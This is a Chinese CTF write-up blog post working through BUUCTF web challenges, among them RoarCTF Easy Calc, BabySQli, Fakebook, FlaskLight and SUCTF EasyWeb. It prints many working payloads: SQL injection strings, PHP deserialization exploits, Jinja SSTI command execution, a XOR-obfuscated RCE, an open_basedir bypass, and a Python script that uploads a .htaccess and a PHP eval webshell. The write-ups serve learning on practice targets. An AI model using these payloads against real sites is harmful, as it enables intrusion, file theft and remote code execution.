





BUUCTF ： 二
[RoarCTF 2019]Easy Calc
vardump(),scandir()与chr()
根据提示，直接入calc.php文件，发现不能传num
wp说因为上了waf，不允许上传num,所以要使用?+num
查看phpinfo()，发现函数禁用的很严，所以考虑蚁剑绕过或者函数执行
这里有两种思路，先说第一种
eval可以执行函数
scandir()函数用于列出一个目录下的所有文件和目录
var_dump()函数将所得内容变为数组，可以让eval中的echo 不会报错
chr()可以绕过正则匹配，输出特殊符号
payload
? num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
flag
flag{03b267fb-8fd1-44a3-a535-bcd08f8826fb}
思路二：HTTP请求走私
原文地址
https://portswigger.net/web-security/request-smuggling
HTTP 请求走私是一种干扰网站处理从一个或多个用户收到的 HTTP 请求序列方式的技术。请求走私漏洞在本质上通常很关键，允许攻击者绕过安全控制，未经授权访问敏感数据，并直接危害其他应用程序用户。
HTTP请求走私漏洞是如何产生的？
大多数 HTTP 请求走私漏洞的出现是因为 HTTP 规范提供了两种不同的方式来指定请求的结束位置：Content-Length标头和Transfer-Encoding标头。
该Content-Length头是直接的：它指定消息体的以字节为单位的长度。例如：
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
q=smuggling
该Transfer-Encoding首标可以被用于指定该消息体的用途分块编码。这意味着消息正文包含一个或多个数据块。每个块由以字节为单位的块大小（以十六进制表示）、后跟换行符和块内容组成。消息以大小为零的块终止。例如：
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
b
q=smuggling
0
由于 HTTP 规范提供了两种不同的方法来指定 HTTP 消息的长度，因此单个消息可能会同时使用这两种方法，从而导致它们相互冲突。HTTP 规范试图通过声明如果Content-Length和Transfer-Encoding标头都存在，Content-Length则应忽略标头来防止此问题。当只有一个服务器在运行时，这可能足以避免歧义，但当两个或多个服务器链接在一起时则不然。在这种情况下，出现问题的原因有两个：
- 某些服务器不支持
Transfer-Encoding请求中的标头。 Transfer-Encoding如果标头以某种方式被混淆，一些 支持标头的服务器可能会被诱导不处理它。
如果前端和后端服务器在（可能被混淆的）Transfer-Encoding 标头方面的行为不同，那么它们可能会在连续请求之间的边界上存在分歧，从而导致请求走私漏洞。
请求走私攻击涉及将Content-Length标头和Transfer-Encoding 标头放入单个 HTTP 请求并对其进行操作，以便前端和后端服务器以不同的方式处理请求。完成此操作的确切方式取决于两个服务器的行为：
- CL.TE：前端服务器使用
Content-Length头部，后端服务器使用Transfer-Encoding头部。 - TE.CL：前端服务器使用
Transfer-Encoding头部，后端服务器使用Content-Length头部。 - TE.TE：前端和后端服务器都支持
Transfer-Encoding头部，但可以通过某种方式混淆头部来诱导其中一个服务器不处理它。
本题所有的方法都可以用
先发送一个POST
确认存在，然后直接构造请求
[ACTF2020 新生赛]BackupFile
源码泄露
这里懒得扫，看了眼wp，访问index.php.bak即可
php弱等于特性
计算机语言的等号分三种 = == ===
一个等于是赋值，重点再两个和三个上
=== 是强等于，只有强等于两边的变量完全一致时（数值，类型）返回对
== 是弱等于，在比较字符和数字时，会将字符先转换为数字，再比较
这里if语句使用了弱等于，所以实际是比较了 $key == 123
get 传参123即可
payload
?key=123
flag
flag{56416317-b54a-4ed5-8530-243719543ec0}
[网鼎杯 2020 青龙组]AreUSerialz
强等于绕过
第一步没什么好说的，就看观察的够不够仔细

这里在结束脚本时将op重新赋值为一，但使用的是强等于，并且1用双引号包裹，故这里的1为str
往上看

类中对op的比较，使用的是弱等于
所以只需要将op赋值为int 2即可
成功绕过
基于php7以上对类型的不敏感绕过字符限制
is_valid函数限制了输入的字符ascii范围，而protected类型和provate类型在序列化时会生成不可见字符，这些字符是超出范围的
对于PHP版本7.1+，对属性的类型不敏感，我们可以将protected类型改为public，以消除不可打印字符。

payload
?str=O%3A11%3A%22FileHandler%22%3A3%3A%7Bs%3A2%3A%22op%22%3Bi%3A2%3Bs%3A8%3A%22filename%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3Bs%3A7%3A%22content%22%3BN%3B%7D
flag
flag{98dce919-5a41-4e00-8266-6644e2d6a67b}
[GXYCTF2019]BabySQli
各种角度都很无聊的一道题
心累了，毁灭吧，赶紧的
order by 比较盲注（假）
源码告诉我们注入位置
解码这串字符串，告诉我们是单引号闭合
先base32再base64,但不解码同样试的出来
然后burp爆破模块测试过滤
嗯，括号，明显是order by比较盲注
不过这里同样过滤了or，测试一下
可以大小写绕过，那么接下来就是写脚本了
然而，写个锤子，跑一半就崩溃
直接抄wp，有兴趣的朋友自己写吧，倦了
骗你的，比较个鬼
逻辑漏洞，union 联合绕过
可能order by的确是种方法，但当我看了wp，我想打出题人
wp是这么说的，让我万分好奇，啥情况？咋绕的？盲注出md5然后登录？
本这好奇心一定要满足的原则，我找了本题的源代码
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Do you know who am I?</title>
<?php
require "config.php";
require "flag.php";
// 去除转义
if (get_magic_quotes_gpc()) {
function stripslashes_deep($value)
{
$value = is_array($value) ?
array_map('stripslashes_deep', $value) :
stripslashes($value);
return $value;
}
$_POST = array_map('stripslashes_deep', $_POST);
$_GET = array_map('stripslashes_deep', $_GET);
$_COOKIE = array_map('stripslashes_deep', $_COOKIE);
$_REQUEST = array_map('stripslashes_deep', $_REQUEST);
}
mysqli_query($con,'SET NAMES UTF8');
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
$sql = "select * from user where username = '".$name."'";
// echo $sql;
$result = mysqli_query($con, $sql);
if(preg_match("/\(|\)|\=|or/", $name)){
die("do not hack me!");
}
else{
if (!$result) {
printf("Error: %s\n", mysqli_error($con));
exit();
}
else{
// echo '<pre>';
$arr = mysqli_fetch_row($result);
// print_r($arr);
if($arr[1] == "admin"){
if(md5($password) == $arr[2]){
echo $flag;
}
else{
die("wrong pass!");
}
}
else{
die("wrong user!");
}
}
}
?>
我来分析一下

先用username怼数据库理把数据拿出来
然后(!$result)看看数据是否真的拿出来了，没拿出来给你个报错(有报错虽好，可惜没卵用)
接着看看输入的name是不是admin，如果是，再比较password值的MD5是否等于数据库里存的md5
看着是没问题，但是
正常人谁把数据提出来才比较
那么这里就有一个逻辑漏洞
我们不需要明确知道密码，我们只需要让我们输入的密码md5值确实存在于数据库里
于是这里回归了那些感觉不清不楚的wp
name=1' union select 0,'admin','e10adc3949ba59abbe56e057f20f883e' %23 &pw=123456
这是wp中的payload,看似的确是union伪造了身份，但是
根本不是，这是逻辑漏洞
当name=1' union select 0,'admin','e10adc3949ba59abbe56e057f20f883e' %23时，$result得到了一个虚拟表
就像这样，这个代码实际得到的，是这样的数组
然后开始比较，$arr[1]=admin，也就是虚拟表第二列值要为admin
$arr[2]=md5(password),虚拟表第三列值为password的MD5值
漏洞来了，这个password，不是数据库里的password，而是我们输入的pw
只要我们输入的pw值在md5后和虚拟表中的password相等，就可以拿到flag,根本不需要知道真正的密码
wp中用烂的payload,真正告诉我们的是这个意思
payload
那么知道了原理，我们甚至可以这么构造
name=1' union select 0,'admin','6eea9b7ef19179a06954edd0f6c05ceb' %23 &pw=qwertyuiop
flag
flag{d56882af-5da5-48db-a589-e8ae11e5189f}
可能我不该说出题人不对，或许出题人就是在这么考呢，没猜到源代码逻辑是我不对（确信）
[Black Watch 入群题]Web2
with rollup注入
经典登录，就是不知道怎么进去
猜测sql语句
sql注入先猜测语句
//正常思路先建立连接
$que = mysqli_query($con,"select * from user where username='admin' and password='admin'");
/*这里应该对单引号做了过滤*/
//题目有个安全提问答案，但测试并不能sql注入，这在ctf中不合理，所以猜测语句应该是
$res = mysqli_fetch_array($que); // 读取数据
if($res['token'] == $POST['token']){ // 用读到的数据匹配token,对则登录成功
....
}
这只是我个人的判断，对不对还需要继续验证
首先查看源码有个注册页面，注入一个用户名密码回答都为111的用户
登录状态如图
然后构造语句
select * from user where username='\' and password=' || 1=1--+';
// 这里用户名变成了\' and password 后面拼接了|| 1=1 --+
本地测试通过
远程回显数据异常，说明这个想法可行
with rollup 语句
后面的$res['token'] == $POST['token']
学长给了我一个思路
参考链接https://www.cnblogs.com/20175211lyz/p/12285279.html
sql中group by语句后可以跟with rollup 语句，作用类似于Exceal表格中的汇总
然后另一篇文章https://www.anquanke.com/post/id/194640#h3-6写到
sql中having和where都是用来筛选的
having是用来筛选组，where是用来筛选记录，通俗点讲：where搜索条件在分组操作之前应用，having搜索条件在进行分组操作之后应用
那我们的攻击语句就可以这么写
select * from user where username='\' and password='|| 1=1 group by token with rollup having token is null--+';
登录成功
访问恶意mysql服务器读取文件
登录成功后这个位置可以连接外部数据库
所以这里可以构建一个恶意mysql让网站去访问，达成任意文件读取的目的
恶意mysql的搭建之前在https://atmujie.github.io/2021/10/28/%E4%BC%AA%E9%80%A0%E6%81%B6%E6%84%8Fmysql/有详细的说过
这里不重复说明
读取/etc/passwd
目录穿越遍历文件
上面已经可以任意文件读取，但我不能读到任何网站文件
最后看了眼wp，还有一个目录穿越漏洞
在查看数据位置可以看到文件夹下所以文件，抓包
这里存在目录穿越漏洞，用%00做截断，即可实现对目录的遍历
得到根目录下flag的文件名
然后恶意mysql读取文件，即可拿到flag
flag
flag{37d1ec8f-0cf6-4607-815d-bafa1056b7c1}
[GYCTF2020]Blacklist
堆叠注入
?inject=1';show databases;use supersqli;show tables;handler FlagHere open;handler FlagHere read first;
最后会有个对select 的过滤
改用mysql中现在很少用的handler语句即可
flag
flag{65aec67a-125b-4ffe-ac64-c3579a8425f1}
[网鼎杯 2018]Fakebook
sql注入联合查询
进入题目，随便写几个数据打开
这里本来猜测是ssrf漏洞，但过滤很严格，无法直接ssrf读取文件，后来看到url处no=1
sql注入

猜测语句
select * fromn users where no=1;
联合查询
得到所有数据
源码泄露、反序列化配合联合查询
上面可以得知写入的数据在数据库里以序列化字符串的格式储存
那么调用时必然会将其反序化
这里卡了半小时没想出啥思路，结果打开wp人家第一句就是robots.txt源码泄露
草率了
<?php
class UserInfo
{
public $name = "";
public $age = 0;
public $blog = "";
public function __construct($name, $age, $blog)
{
$this->name = $name;
$this->age = (int)$age;
$this->blog = $blog;
}
function get($url)
{
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$output = curl_exec($ch);
$httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
if($httpCode == 404) {
return 404;
}
curl_close($ch);
return $output;
}
public function getBlogContents ()
{
return $this->get($this->blog);
}
public function isValidBlog ()
{
$blog = $this->blog;
return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
}
}
得到源码，果然对直接写入的网站地址做了很严格的过滤
但这里可以和上面的sql注入配合
//上面联合查询出的data值都为序列化字符串，所以猜测逻辑如下
$res = mysqli_query($con,"select * from users");
$res = mysqli_fetch_array($res);
for ($i = 0;$i < count($res);$i++){
unserialize($res['data']);
}
所以可以利用联合注入将最后的data改成file:///…
exp
<?php
class UserInfo
{
public $name = "";
public $age = 0;
public $blog = "";
public function __construct()
{
$this->name = "Atmujie";
$this->age = 20;
$this->blog = "file:///var/www/html/flag.php";
}
}
echo serialize(new UserInfo());
//O:8:"UserInfo":3:{s:4:"name";s:7:"Atmujie";s:3:"age";i:20;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
-1/**/unIon/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:7:"Atmujie";s:3:"age";i:20;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
最后在源码处得到一串base64，解码得到flag
flag
flag{ac61c23f-40c8-4264-9fc4-d0cdc868a4f9}
[CSCCTF 2019 Qual]FlaskLight
SSTI
较为简单的ssti，语言是python2
测试发现__globals__被过滤，字符拼接绕过
{{config.__class__.__init__['__gl'+'obals__']['os'].popen('ls').read()}}
flag在flasklight目录下

flag
flag{8e1b05ca-84f9-417d-a4fc-ca2e4e5ed5cf}
[SWPU2019]Web1
二次注入
题目有登录注册，但经过测试，登录成功后在广告申请位置存在sql注入
先猜测语句
insert into user(id,vlaues) values("title","vlaues")
测试了好一会没发现什么问题
打开发现sql注入
也就是说插入位置并不存在注入点，但读取查看时存在
$sel = mysqli_query($con,"select * from user where id=$id");
所以注入语句后再打开详情，即可造成sql注入
我觉得正常思路应该在注入语句后发现输入被原份不动的写入没有加任意过滤时，就该想到二次注入的问题
而不是想我这样点开才发现
大概这就是我刷题太少的体现，对题目不够敏感
创建虚拟表无列名注入
过滤了报错注入，只能使用联合查询或者盲注，二次注入盲注脚本写起来比较麻烦，这里用联合查询
所以，我想给出题人加个红buff
t喵的22列的库，正常人出的题？
这道题还过滤了or，无法使用information进行查询
这里使用其他的系统库mysql.innodb_table_stats
这里我之前写过详解https://atmujie.github.io/2020/12/08/mysql%E6%95%B0%E6%8D%AE%E5%BA%93%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/#toc-heading-20
title=1' union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22;%00
得到表名
过滤了join
所以采用创建虚拟表的形式直接查询
payload
title='union/**/select/**/1,(select/**/group_concat(C)/**/from/**/(select/**/'A','B','C'/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22;%00&content=111&ac=add
flag
flag{43b461a7-c4d5-41ac-ba3c-e966bf9924a6}
[HarekazeCTF2019]encode_and_encode
这道题考察了一个小知识点，有过开发经验的人应该很容易做出来
json中文编码的衍生
目前主流网站进行前后端交互式时首选的基本都是json格式
为了解决中文数据交互时产生的乱码问题，json对中文会采用Unicode编码来处理
而题目代码的逻辑有问题
源码对获取到的未经处理的$body进行了编码而不是对json解码后的内容进行处理，所以用json对Unicode的支持，可以将数据编码为Uniocde格式绕过对$body的检测
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=query.php"}
复制payload，抓包上传

payload
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}
flag
flag{c7647449-7518-4c68-af28-270b657251d2}
[SUCTF 2019]EasyWeb
无字母rce异或执行
第一个考点已经被考烂了，但还是有很大的学习价值
原理现在很多文章都有讲，我这里也不细说，就放个自己修修改改写了大半天的脚本
<?php
// 正则表达式
const PRE = '/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i';
// 匹配字符
$string = "_GET";
// =============================================
// =================以下无需修改=================
// =============================================
// 查找没有匹配的字符
$byte = array();
// 没有匹配到就压入数组
/*
* 异或要从127之后开始，确保为不可见字符
*/
for ($i = 128; $i< 255;$i++) if (!preg_match(PRE,chr($i))) array_push($byte,$i);
function xorCode($byte,$string){
$flag1 = array();
$flag2 = array();
$len = strlen($string);
for ($strs = 0;$strs < strlen($string);$strs++) {
$bool = true;
for ($i=0 ; $i < count($byte);$i++){
if ($bool == false) break;
for ($j=0 ; $j < count($byte); $j++){
// 判断异或
$x = $byte[$i]^$byte[$j];
if (ord($string[$strs]) == $x){
$len--;
// 将第一个匹配到的异或表达式写入数组
$flag1[$strs] = '%' . dechex($byte[$i]);
$flag2[$len] = '%' . dechex($byte[$j]);
$bool = false;
}
}
}
}
echo "\${".implode("",$flag1)."^".implode("",$flag2)."}";
}
xorCode($byte,$string);
我写的很长时间的原因也很简单，这里就当一个坑谈谈
异或时需要尽可能的避免出现可见字符，在执行的过程中，一些字符会对异或造成影响【比如}和:】
说的简单点，字符要从ascii码表127之后匹配
我就是从0开始，一直执行失败，写代码半小时，修改大半天后发现还是原来的版本…….
- 因为有字符数的限制，所以不能完全的写异或字符，所以payload如下
?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=phpinfo

上传.htaccess文件 getshell
题目开始给了我们一个get_the_flag 函数，但并没有执行，这步正好可以利用上面的异或来执行这个函数
?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag
这里上传文件需要满足三个条件
后缀名不能有ph
有两个思路，一是截断后缀名，解析绕过等，二是上传.htaccess添加解析条件
文件内容不能出现<?
php5版本使用
<script language="php">eval();</script>来绕过限制，但这个方法在php7中不可用【异或命令执行可得知php版本为7.2.19】文件前6个字节需为图片标识
这个条件最简单，只需要在文件开头加上GIF89A12即可
第一个条件二选一可以暂留，主要是第二个
这里我看了wp
++++
用python文件上传：
import requests
import base64
# b"xxx"以字节的形式储存数据
"""python中多行注释单独写出为注释，写入变量为多行写入
题目要求文件开头为图片，但.htaccess无法生效
所以使用#define width 1337#define height 1337 绕过
#表示注释
接下来就是两行规则，讲.pp解析为php,base64解码shell.ppp
"""
htaccess = b"""
#define width 1337
#define height 1337
AddType application/x-httpd-php .ppp
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.ppp"
"""
shell = b"GIF89A12" + base64.b64encode(b"<?php eval($_REQUEST['cmd']);?>")
url = "http://c5fc0561-1461-4eef-a3ce-fd83d3b7f5be.node3.buuoj.cn/?_=${%86%86%86%86^%d9%c1%c3%d2}{%86}();&%86=get_the_flag"
#上传两个文件
files = {'file':('.htaccess',htaccess,'image/png')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)
files = {'file':('shell.ppp',shell,'image/png')}
response = requests.post(url=url, data=data, files=files)
print(response.text)
+++
上面就是wp的python脚本，这里其实也大可不必脚本，只要手速够快，在REMOTE_ADDR变换前写入两个文件即可
其中在htaccess文件里加注释绕过我一直不懂，有人说是#截断让行无效化
但经过测试，应该是用#define width 1337和#define height 1337伪造了图片的宽和高，使服务器认为这是一个图片
绕过open_basedir
参考文章https://www.v0n.top/2020/07/10/open_basedir%E7%BB%95%E8%BF%87/
之前分析过原理，不过时间有点久，我也忘了，这次直接贴payload
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');system('ls');
原理：
mkdir('Von'); //创建一个目录Von
chdir('Von'); //切换到Von目录下
ini_set('open_basedir','..'); //把open_basedir切换到上层目录
chdir('..'); //以下是把目录切换到根目录
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/'); //设置open_basedir为根目录(此时相当于没有设置open_basedir)
echo file_get_contents('/etc/passwd'); //读取/etc/passwd
flag
flag{88f35866-46d9-47ed-9b58-fc7d23bf23a8}
提一句题外话，算是又感而发
任何漏洞的产生，不是我们理所当然的认为该这样所以是这样
就好像这道题#define 伪造宽高，chdir(‘..’);过open_basedir，不是可以伪造宽高和执行cd导致漏洞
而是底层代码的逻辑出现了问题，让我们可以伪造宽高和执行cd
代码审计，是安全的根本
[GXYCTF2019]BabyUpload
解法同EasyWeb文件上传部分，我不想重复写
难题虽难，但果然很有意思，学到不少东西
flag
flag{7b0d8cdf-ef59-4a48-990a-ef2155c66d77}
[安洵杯 2019]不是文件上传
有意思的一道题目
虽然我之前就听说过文件名sql注入这个东西，但从另一种角度看，这道题算是我自己审计出漏洞的第一题
信息泄露
第一个考点很偏门，但我好像也不是很意外，学安全哪有不会信息收集的，从这个角度看，这考点还蛮不错的
去github搜即可得到源码
审计-反序列化
首先源码里可以找到一个很明显的反序列化任意文件读取
接着看看有没有利用点

发现在上传图片时程序会将图片的宽高序列化，然后在显示图片时序列化
所以下一个目标就是让序列化的宽高成为构造好的序列化exp
审计-文件名sql注入
伪造宽高显然不现实，好在这里还有个sql注入
这个点是调试出来的，同时可知$sql_val一共有四个值，第四个即为序列化的宽高
同样，也可以得到文件名不变的结论，即程序对文件名没有任意的处理
这里我已经把调试关了所以不贴截图，如果真有人想探究一下原理，不妨去自己调试一下
exp
<?php
/*
* 只能说这题蛮有趣的
* 思路:
* 文件上传，需要控制文件上传的宽高的序列化
* 在显示图片处反序列化，造成任意文件读取
* 这里宽高实在太难控制，所以需要用sql注入给数据库里注进去
* 调试之后发现，可以用文件名进行注入操作
* 其中调试后得知写入的数据格式如下
* VALUES('1','47e345731fb1eefb.gif','gif','pic/47e345731fb1eefb.gif','a:2:{s:5:"width";i:12849;s:6:"height";i:8224;}')
* 理清思路，顿感简单，先写个反序列化
* 写完就下面两句，真勾八简单
* 然后构造注入语句
* 9','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a34393a227068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d2f666c6167223b7d)#
')#
* */
class helper {
protected $ifview = true;
protected $config = "php://filter/convert.base64-encode/resource=/flag";
}
echo "9','1','1','1',0x".bin2hex(serialize(new helper())).")#";
flag
flag{d89dae12-80eb-4972-980d-261858d14dd0}
这道题的审计真的很简单，但它的利用思路，真的很好玩
后话
BUU2 就到这吧
截止2021.11.06，我零零散散刷的这些题，又写了6000字
期间也就偶尔刷一刷，算不得有多快的刷题速度，也好在最近学长整理了一份题目难度表，顺便去除了纯属恶心人的题目，我可算是感觉刷的每到题都能让我学到东西了
说真的，有时我感觉自己的博客不是笔记，而是小说，而且大概连我自己都不会去看，学安全扑街，写作也扑街，生活也是个扑街
感觉我现在整个人就是个三无产品，没钱没技术还没女朋友
吐槽结束，上面纯当乐子看就行，也就我博客没人看，所以这么写写，浏览量高了我不得分分钟把这话删了
接下来刷的题，我会写进BUU3
希望接下来我不看wp也可以自己做出来